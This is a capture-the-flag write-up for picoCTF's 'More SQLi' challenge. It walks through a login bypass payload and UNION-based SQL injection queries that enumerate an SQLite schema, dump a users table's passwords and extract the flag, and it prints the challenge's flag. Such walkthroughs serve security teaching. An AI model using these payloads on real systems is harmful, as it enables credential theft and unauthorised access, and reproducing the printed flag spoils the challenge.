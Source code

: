 # More SQLi ❓

**Tags:** Web Exploitation

**Point:** 200 points

**Description:** 
Can you find the flag on this website.
Additional details will be available after launching your challenge instance.

### Solution: 💯

For the first login page, we can easily bypass with 

> Username: `anystring`
> Password: `' or 1=1 --`

Then we access "Search city" website, this box is also vulnerable to SQLi too.

We try to find the table that contains the flag, we often retrieve data columns or rows by `UNION`, quick test with this payload. 

```
Algiers' UNION SELECT 1, sqlite_version(), 3;--
```

<p align="center">
    <img src="/Web/picoCTF/More SQLi/img/image1.png">
</p>

> With testing by adding some "null" in SELECT, we can found out that the query behind backend should return 3 columns, if not , UI would return empty, this indicates errors when querying.

That proves it works! Now then try to retrieve all tables in DB.

```
Algiers' union select name, tbl_name, null from sqlite_master; --
```

<p align="center">
    <img src="/Web/picoCTF/More SQLi/img/image2.png">
</p>

In the output, there is a table named `users`, this is interesting. Let's find columns existing in it.

```
Algiers' union SELECT name, type, pk from pragma_table_info('users'); --
```

<p align="center">
    <img src="/Web/picoCTF/More SQLi/img/image3.png">
</p>


Columns `name` and `password` exists, now retrieve the data

```
Algiers' union SELECT id, name, password from users; --
```

<p align="center">
    <img src="/Web/picoCTF/More SQLi/img/image4.png">
</p>

Then we can finally get the credential for `admin` user. Log out and log in with these information. But it seems not work. So let's work on other existing tables. 

After spending a few minutes, table `hints` is not relevant. But table `more_table` has a column named `flag`

<p align="center">
    <img src="/Web/picoCTF/More SQLi/img/image5.png">
</p>

Let's read it with:

```
Algiers' union SELECT id, flag, null from more_table; --
```

There you're done!

#### The Flag (for reference): ✔️
```
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_e3e46aae}	
```





